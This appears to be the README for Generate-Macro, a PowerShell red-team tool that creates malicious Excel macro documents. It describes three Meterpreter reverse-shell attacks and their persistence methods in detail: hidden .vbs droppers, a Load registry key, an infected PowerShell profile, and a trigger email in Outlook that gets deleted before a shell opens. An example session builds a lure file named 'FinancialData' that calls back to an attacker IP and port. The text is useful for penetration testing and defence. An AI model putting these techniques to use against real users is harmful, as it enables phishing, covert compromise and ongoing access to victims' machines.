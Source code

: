 <h2>Coded by Matt Nelson (@enigma0x3)</h2>

<h4>SYNOPSIS</h4>
Generate-Macro is a standalone PowerShell script that will generate a malicious Microsoft Office document with a specificity payload and persistence method.

<h4>DESCRIPTION</h4>
This script will generate malicious Microsoft Excel Documents that contain VBA macros. 
This script will prompt you for an IP address and port (you will receive your shell at this address and port) and the name of the malicious document. From there, the script will then prompt you to choose from a menu of different attacks, all with different persistence methods. Once an attack is chosen, it will then prompt you for your payload type. Currently, only HTTP and HTTPS are supported.

When naming the document, do not include a file extension.

<strong>These attacks use Invoke-Shellcode, which was created by Matt Graeber. Follow him on Twitter --> @mattifestation</strong>

<h4>ATTACK TYPES</h4><ul>
<li>Meterpreter Shell with Logon Persistence: <br />
This attack delivers a meterpreter shell and then persists in the registry by creating a hidden .vbs file in C:\Users\Public and then creates a registry key in HKCU\Software\Microsoft\Windows NT\CurrentVersion\Windows\Load that will execute the .vbs file on login.</li>

<li>Meterpreter Shell with PowerShell Profile Persistence: <br />
This attack requires the target user to have Administrator privileges but is quite creative. 
It will deliver you a shell and then drop a malicious .vbs file in C:\Users\Default\AppData\Roaming\Microsoft\Windows\Cookies\cookie.vbs. Once dropped, it creates an infected PowerShell Profile file in C:\Windows\SysNative\WindowsPowerShell\v1.0\ and then creates a registry key in HKCU\Software\Microsoft\Windows NT\CurrentVersion\Windows\Load that will execute Powershell.exe on startup. 
Since the PowerShell profile loads automatically when Powershell.exe is invoked, your code is executed automatically.</li>

<li>Meterpreter Shell with Microsoft Outlook Email Persistence: <br />
This attack will give you a shell and then download a malicious Powershell script to C:\Users\Public\. 
Once downloaded, it will insert your defined IP address, port, email address and trigger word. It will then create a malicious .vbs file and drop it in C:\Users\Default\AppData\Roaming\Microsoft\Windows\Cookies\. Once dropped, it creates a registry key that executes it on login. When the Powershell script is executed, it monitors the user's Outlook Inbox for an email containing the email address you specified as well as the trigger word in the subject. When it sees the email, it will delete it and send you a shell.</li>

<h4>EXAMPLE</h4>
```
PS> ./Generate-Macro.ps1
Enter IP Address: 10.0.0.10
Enter Port Number: 1111
Enter the name of the document (Do not include a file extension): FinancialData

--------Select Attack---------
1. Meterpreter Shell with Logon Persistence
2. Meterpreter Shell with Powershell Profile Persistence (Requires user to be local admin)
3. Meterpreter Shell with Microsoft Outlook Email Persistence
------------------------------
Select Attack Number & Press Enter: 1

--------Select Payload---------
1. Meterpreter Reverse HTTPS
2. Meterpreter Reverse HTTP
------------------------------
Select Payload Number & Press Enter: 1
Saved to file C:\Users\Malware\Desktop\FinancialData.xls
```